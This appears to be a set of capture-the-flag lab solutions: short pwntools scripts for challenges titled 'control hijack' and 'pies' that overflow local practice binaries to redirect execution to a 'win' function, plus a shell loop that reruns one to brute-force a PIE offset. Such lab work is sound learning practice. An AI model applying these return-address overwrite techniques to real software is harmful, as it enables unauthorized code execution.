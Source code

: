 ```python

```
## tricky control hijack (hard)
```python

from pwn import *

context(os='linux', arch='amd64', log_level='debug')
io=process('./binary-exploitation-control-hijack-2')

def sd(s):
	io.send(s)

### code 
win=0x40220e
pl=b'b'*(0x40+8)+p64(win)
sd(pl)
### 
# 
io.interactive()

```
## pies (easy)
```python
import struct
from pwn import *

# context(os='linux', arch='amd64', log_level='debug')
io=process('binary-exploitation-pie-overflow-w')

def sd(s):
	io.send(s)

### code 
win=0x7126
pl=b'b'*(120)+struct.pack("<H",win)
sd(pl)
### 
# 
io.interactive()

```
```sh
for i in {1..20};do python /tmp/a.py; done
```
## pies (hard)
```python
import struct
from pwn import *

# context(os='linux', arch='amd64', log_level='debug')
io=process('binary-exploitation-pie-overflow')

def sd(s):
	io.send(s)

### code 
win=0x1f53
pl=b'b'*(0x60+8)+struct.pack("<H",win)
sd(pl)
### 
```